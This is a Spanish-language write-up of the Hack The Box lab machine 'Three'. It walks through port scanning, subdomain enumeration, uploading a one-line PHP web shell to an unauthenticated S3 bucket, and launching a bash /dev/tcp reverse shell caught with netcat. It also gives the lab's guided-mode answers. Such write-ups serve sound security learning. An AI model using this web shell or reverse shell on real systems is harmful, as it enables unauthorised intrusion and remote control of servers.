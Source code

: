 ```yaml
---
title: Writeup three - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - three
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina three en Hack The Box.
keywords:
  - writeup three
  - hack the box three
  - resolución máquina three
  - three hack the box
  - htb three
---
```

------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/SuperFacil/Tier+1/Linux/Three)
- 📺 **Resolución en vivo (completa)**: [Parte1](https://www.youtube.com/watch?v=jVak5k46ODM)|[Parte2](https://www.youtube.com/watch?v=k6nprw1Ol_w)                                                                                                             
- 🧠 **Explicación resumida**: [Link](https://www.youtube.com/watch?v=sGjqDbMId3U)

-----

#veryeasy #linux #ping #nmap #nvim #sudo #/etc/hosts #aws #reverseshell #whatweb  #gobuster #cat

---
# Guided Mode

1)¿Cuántos puertos TCP hay abiertos?
	2

2)¿Cuál es el dominio de la dirección de correo electrónico facilitada en la sección «Contacto» del sitio web?
	thetoppers.htb

3)En ausencia de un servidor DNS, ¿qué archivo de Linux podemos utilizar para resolver nombres de host en direcciones IP con el fin de poder acceder a los sitios web que apuntan a esos nombres de host?
	/etc/hosts

4)¿Qué subdominio se descubre durante la enumeración posterior?
	s3.thetoppers.htb
	
5)¿Qué servicio se ejecuta en el subdominio descubierto?
	amazon s3

6)¿Qué utilidad de línea de comandos puede utilizarse para interactuar con el servicio que se ejecuta en el subdominio descubierto?
	awscli

7)¿Qué comando se utiliza para configurar la instalación de la CLI de AWS?
	aws configure

8)¿Cuál es el comando utilizado por la utilidad anterior para listar todos los buckets de S3?
	aws s3 ls
	
9)¿Este servidor está configurado para ejecutar archivos escritos en qué lenguaje de scripting web?
	php

-------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.227.248
nmap -p- --open -vvv --min-rate 5000 -sS -n -Pn 10.129.227.248 -oG allPorts
extractPorts allPorts
nmap -sCV -p22,80 10.129.227.248 -oN target
```

![[Three1.png]]

![[Three2.png]]
*TTL:* Maquina Linux
*Puertos:*
	`22` [[ssh]]
	`80` HTTP

------
# [[Whatweb-wappalyzer]]
![[Three3.png]]
Nos da el mail con dominio thetoppers.htb que lo vamos a agregar a etc/hosts para probar

------
# Agregar dominio a /etc/hosts

Vamos a ejecutar con [[nvim]] y [[sudo]] el comando `sudo nvim /etc/hosts` para modificar el archivo abriendolo como root
```
10.129.227.248 thetoppers.htb
```

![[Three4.png]]

--------

# Enumeracion de subdominios con [[Gobuster]]

```shell
gobuster vhost -u http://thetoppers.htb -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain
```

![[Three5.png]]
Como resultado tenemos s3.thetoppers.htb

-----
# Agregar subdominio a /etc/hosts

Vamos a ejecutar con [[nvim]] y [[sudo]] el comando `sudo nvim /etc/hosts` para modificar el archivo abriendolo como root

```
10.129.182.45 s3.thetoppers.htb
```

![[Three6.png]]

Ahora entramos a la pagina `http://s3.thetoppers.htb/` y ya nos va a cargar
![[Three13.png]]

-------
# Carga de archivo malisioso con [[aws]]

Vamos a acceder a los contenedores de amazon s3, y ver sus contenidos para enumerar un poco, podemos ver que estos son los archivos de la pagina principal, asi que vamos a cargar posteriormente un archivo que nos permita ejecutar comandos

Con el primer comando al ver que nos responde thetoppers.htb sabemos que esta hosteando la pagina victima, asi que vamos a intentar cargar y/o modificar archivos
Con el segundo comando visualizamos el contenido del directorio

```shell
aws --endpoint-url http://s3.thetoppers.htb s3 ls --no-sign-request
aws --endpoint-url http://s3.thetoppers.htb s3 ls s3://thetoppers.htb --no-sign-request
```

![[Three7.png]]



#### Cargamos el archivo [[archivo php inyección comandos]]

Contenido del archivo exploit.php
```
<?php system($_GET["cmd"]); ?>
```

Ahora con este comando de [[aws]] vamos a cargar el archivo exploit.php
```
aws --endpoint-url=http://s3.thetoppers.htb s3 cp exploit.php s3://thetoppers.htb --no-sign-request
```

![[Three8.png]]

Desde la maquina victima, vamos a hacer una prueba para ver si funciona el archivo que cargamos

http://thetoppers.htb/exploit.php?cmd=id
![[Three9.png]]
Como podemos ver nos muestra nos responde, asi que el archivo cumple su funcion correctamente


-------
# [[Reverse shell]]

Desde la maquina victima vamos a ejecutar el siguiente link `http://thetoppers.htv/exploit.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.16.16/443 0>%261'`

![[Three11.png]]

Mientras que desde nuestra maquina vamos a estar en escucha con [[nc -nlvp 443]]

![[Three12.png]]
Una vez dentro de la maquina cateamos la flag

----------
# Creditos
Writeup oficial HackTheBox